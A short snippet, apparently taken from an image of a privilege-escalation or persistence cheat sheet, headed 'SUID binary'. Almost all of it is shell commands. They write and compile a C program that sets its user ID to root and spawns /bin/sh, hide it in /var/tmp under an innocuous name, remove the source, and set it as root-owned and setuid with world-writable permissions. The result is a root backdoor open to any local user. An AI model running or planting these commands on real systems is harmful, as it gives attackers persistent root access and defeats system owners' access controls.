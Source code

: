 **SUID binary**

``TMPDIR2="/var/tmp"
``echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
``gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
``rm $TMPDIR2/croissant.c
``chown root:root $TMPDIR2/croissant
``chmod 4777 $TMPDIR2/croissant
